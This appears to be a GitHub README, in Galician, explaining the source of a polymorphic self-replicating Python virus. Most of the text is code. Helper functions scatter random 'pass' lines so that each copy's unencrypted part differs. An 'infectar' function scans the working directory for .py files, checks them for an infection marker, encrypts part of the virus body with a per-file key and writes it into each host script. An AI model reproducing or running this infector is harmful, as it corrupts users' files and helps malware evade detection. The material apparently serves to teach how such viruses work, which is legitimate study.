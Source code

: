 - Función **calcula_tabulacion**: esta función calcula o número de espazos que preceden a un “pass” cando se insire.
```python
def calcula_tabulacion(codigo, posicion):
    if "else" in codigo[posicion] or "elif" in codigo[posicion]:
        return len(codigo[posicion]) - len(codigo[posicion].lstrip()) + 4
    return len(codigo[posicion]) - len(codigo[posicion].lstrip())
```

- Función **engade_pass**: esta función é a que coloca aleatoriamente os “pass” no código que non se cifra.
```python
def engade_pass(codigo):
    import random
    linhas = codigo.split(chr(10))
    for i in range(10):
        if random.random() > 0.75:
            posicion_insecion = random.randint(1, len(linhas) - 1)
            linhas.insert(posicion_insecion, " " * calcula_tabulacion(linhas, posicion_insecion) + "pass")
    return chr(10).join(linhas)
```

- Función **modifica**: esta función é a encargada de borrar os “pass” previos e engadir os novos a cada unha das 
  funcións que non se cifran.
```python
def modifica(codigo):
    novo_codigo = []
    separador = chr(10) + chr(10) + chr(10)
    funcions = codigo.split(separador)
    for texto in funcions:
        if texto:
            codigo_sen_pass = borra_pass(texto)
            codigo_con_pass = engade_pass(codigo_sen_pass)
            novo_codigo.append(codigo_con_pass)
        else:
            novo_codigo.append(texto)
    return separador.join(novo_codigo)
```

Función **infectar**: esta función fai o mesmo ca antes, pero agora:
- En vez de obter a parte e claro e a parte a cifrar mediante un valor fixo, obtense buscando a posición da función 
  cifra.
- Chamase a función modifica para que o código que non se cifre sexa diferente.
- O código do descifrador xa non ten o valor fixo para indicar a lonxitude da parte descifrada; agora calculase en 
  función do tamaño do código modificado.
```python
def infectar(virus):
    import os
    for arquivo in os.listdir("."):
        if arquivo.endswith(".py"):
            script = open(arquivo, "r+")
            texto_script = script.read()
            if "def calcula_clave" not in texto_script:
                parte_en_claro = virus[:virus.find("def cifra")]
                parte_a_cifrar = virus[virus.find("def cifra"):]
                parte_en_claro_modificada = modifica(parte_en_claro)
                clave = calcula_clave(texto_script)
                parte_crifrada = cifra(parte_a_cifrar, clave)
                script.write(parte_en_claro_modificada)
```